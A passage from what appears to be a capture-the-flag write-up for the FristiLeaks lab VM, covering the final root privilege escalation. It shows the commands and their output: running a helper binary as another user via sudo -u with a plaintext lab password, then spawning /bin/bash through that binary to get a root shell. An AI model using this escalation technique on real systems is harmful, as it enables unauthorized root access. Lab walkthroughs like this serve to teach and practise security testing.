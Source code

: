 The only thing of interest it gives me (aside from some as-expected outdated OS alerts) is that there is another user without a home folder on the machine - "fristi".

### 6. Escalate to root
I know I can run sudo as another user, using the -u argument, so I try this with fristi.
```bash
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
[sudo] password for fristigod: LetThereBeFristi!

Usage: ./program_name terminal_command ...-bash-4.1$
```
Progress. So now I know how the program works. Now I can spawn bash inside the program which should run as root.
```bash
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
bash-4.1# whoami
root
```
